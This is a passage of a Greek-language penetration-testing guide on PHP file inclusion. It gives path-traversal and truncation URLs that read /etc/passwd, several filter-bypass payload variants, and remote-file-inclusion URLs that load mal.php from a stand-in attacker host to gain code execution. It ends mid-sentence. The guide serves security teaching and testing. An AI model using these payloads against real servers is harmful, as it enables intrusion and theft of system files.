 Τα παραδείγματα που παρέχονται δείχνουν πώς να χρησιμοποιήσετε το τραβήγματος διαδρομής για να αποκτήσετε πρόσβαση στο `/etc/passwd`, έναν κοινό στόχο λόγω του ευαίσθητου περιεχομένου του (πληροφορίες λογαριασμού χρήστη):
```
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd......[ADD MORE]....
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.
```

```
http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
http://example.com/index.php?page=a/../../../../[ADD MORE]../../../../../etc/passwd
```
Σε αυτά τα σενάρια, ο αριθμός των διασχίσεων που απαιτούνται μπορεί να είναι γύρω στο 2027, αλλά αυτός ο αριθμός μπορεί να διαφέρει ανάλογα με τη διαμόρφωση του διακομιστή.

* **Χρησιμοποιώντας Τμήματα Τελείας και Πρόσθετους Χαρακτήρες**: Οι ακολουθίες διασχίσεων (`../`) σε συνδυασμό με επιπλέον τμήματα τελείας και χαρακτήρες μπορούν να χρησιμοποιηθούν για να πλοηγηθούν στο σύστημα αρχείων, αγνοώντας αποτελεσματικά τις προσαρτημένες συμβολοσειρές από τον διακομιστή.
* **Καθορισμός του Απαιτούμενου Αριθμού Διασχίσεων**: Μέσω δοκιμών και λαθών, μπορεί κανείς να βρει τον ακριβή αριθμό των ακολουθιών `../` που απαιτούνται για να πλοηγηθεί στην ριζική καταχώρηση και στη συνέχεια στο `/etc/passwd`, διασφαλίζοντας ότι οποιεσδήποτε προσαρτημένες συμβολοσειρές (όπως `.php`) εξουδετερώνονται αλλά η επιθυμητή διαδρομή (`/etc/passwd`) παραμένει ανέπαφη.
* **Ξεκινώντας με έναν Ψεύτικο Κατάλογο**: Είναι κοινή πρακτική να ξεκινά η διαδρομή με έναν ανύπαρκτο κατάλογο (όπως `a/`). Αυτή η τεχνική χρησιμοποιείται ως προληπτικό μέτρο ή για να εκπληρώσει τις απαιτήσεις της λογικής ανάλυσης διαδρομής του διακομιστή.

Όταν χρησιμοποιούνται τεχνικές περικοπής διαδρομής, είναι κρίσιμο να κατανοηθεί η συμπεριφορά ανάλυσης διαδρομής του διακομιστή και η δομή του συστήματος αρχείων. Κάθε σενάριο μπορεί να απαιτεί διαφορετική προσέγγιση, και οι δοκιμές είναι συχνά απαραίτητες για να βρεθεί η πιο αποτελεσματική μέθοδος.

**Αυτή η ευπάθεια διορθώθηκε στο PHP 5.3.**

### **Τεχνάσματα παράκαμψης φίλτρων**
```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
Maintain the initial path: http://example.com/index.php?page=/var/www/../../etc/passwd
http://example.com/index.php?page=PhP://filter
```
## Remote File Inclusion

Στο php αυτό είναι απενεργοποιημένο από προεπιλογή γιατί **`allow_url_include`** είναι **Απενεργοποιημένο.** Πρέπει να είναι **Ενεργοποιημένο** για να λειτουργήσει, και σε αυτή την περίπτωση θα μπορούσατε να συμπεριλάβετε ένα αρχείο PHP από τον διακομιστή σας και να αποκτήσετε RCE:
```python
http://example.com/index.php?page=http://atacker.com/mal.php
http://example.com/index.php?page=\\attacker.com\shared\mal.php
```
Αν για κάποιο λόγο **`allow_url_include`** είναι **On**, αλλά το PHP **φιλτράρει** την πρόσβαση σε εξωτερικές ιστοσελίδες, [σύμφωνα με αυτή την ανάρτηση](https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64/), θα μπορούσατε να χρησιμοποιήσετε για παράδειγμα το πρωτόκολλο δεδομένων με base64 για να αποκωδικοποιήσετε έναν κωδικό PHP b64 και να αποκτήσετε RCE:
